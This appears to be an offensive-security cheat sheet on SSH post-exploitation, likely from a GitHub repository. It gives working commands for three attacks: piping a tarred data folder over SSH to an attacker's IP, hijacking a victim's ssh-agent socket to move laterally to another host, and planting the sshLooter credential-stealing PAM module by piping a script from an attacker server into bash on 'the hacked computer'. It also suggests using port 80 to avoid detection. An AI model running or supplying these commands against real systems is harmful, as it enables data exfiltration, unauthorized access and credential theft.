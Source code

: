 # Data Exfiltration
##### From target, tar folder containing data and pipe to SSH.
##### Port 80 may be best, to avoid detection on port 22.
##### Process will untar file to /tmp/datafolder.
```bash
tar zcf - /tmp/datafolder | ssh <user>@<Attack IP Address> "cd /tmp; tar zxpf -"
```

### Data Exfiltration References
[BASH Shell Redirect stderr To stdout (redirect stderr to a File)](https://www.cyberciti.biz/faq/redirecting-stderr-to-stdout/)

# Hijacking
### Using MITRE ATT&CK
[MITRE ATT&CK Framework](https://attack.mitre.org/techniques/T1563/001/)

### Manually
##### Step 1 - Determine SSH Process ID (PID)
```bash
ps aux | grep sshd
```
##### Step 2 - Determine SSH_AUTH_SOCK environment variable
```bash
grep SSH_AUTH_SOCK /proc/<PID>/environ
```
##### Step 3 - Hijack target's ssh-agent socket
```bash
SSH_AUTH_SOCK = /tmp/ssh-XXXXXXX/agent.XXXX ssh-add -l
```
##### Step 4 - Log into remote system
```bash
ssh remotesystem -l victim
```

### Hijacking References
[Public Key Authentication](https://www.ssh.com/academy/ssh/public-key-authentication)

[Unix domain socket](https://en.wikipedia.org/wiki/Unix_domain_socket)

[SSH and ssh-agent](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=dfe66853-a519-4b96-81b6-e7cbbdfc8c53&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments)

[SSH Hijacking for lateral movement](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)

# Stealing Credentials
### Using PAM module
```bash
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter

# On your server execute.
python -m SimpleHTTPServer

# On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
```

### Steal Credentials References
[Stealing SSH credentials Another Approach](https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html)

[sshLooter](https://github.com/mthbernardes/sshLooter)